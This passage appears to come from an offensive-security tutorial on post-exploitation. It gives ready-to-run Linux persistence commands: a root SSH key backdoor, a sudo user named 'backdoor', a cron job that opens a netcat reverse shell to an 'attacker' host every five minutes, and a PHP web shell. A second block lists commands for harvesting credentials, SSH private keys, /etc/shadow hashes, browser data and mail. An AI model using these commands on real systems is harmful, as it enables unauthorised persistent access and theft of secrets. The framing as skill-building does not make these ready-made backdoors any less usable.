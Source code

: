 **Why?**
- Sessions get disconnected
- Systems get rebooted
- Need reliable access

**Techniques**:

```bash
# SSH Key Backdoor
mkdir -p /root/.ssh
echo "YOUR_PUBLIC_KEY" >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys

# Create Backdoor User
useradd -m -s /bin/bash backdoor
echo 'backdoor:secretpass' | chpasswd
usermod -aG sudo backdoor

# Cron Job Backdoor
echo "*/5 * * * * root nc -e /bin/bash attacker 4444" >> /etc/crontab

# Web Shell
echo '<?php system($_GET["cmd"]); ?>' > /var/www/html/shell.php
```

**Skills Developed**:
- Understanding system startup
- User management
- Scheduled tasks
- Web application backdoors

#### 2. Data Exfiltration

**What to Look For**:
```bash
# Database credentials
find / -name "config.php" 2>/dev/null
find / -name "wp-config.php" 2>/dev/null
grep -r "password" /var/www 2>/dev/null

# SSH keys
find / -name "id_rsa" 2>/dev/null
find / -name "id_ed25519" 2>/dev/null

# Password hashes
cat /etc/shadow

# Browser saved passwords
find / -name "*.db" | grep -i browser

# Email
find /var/mail -type f
```
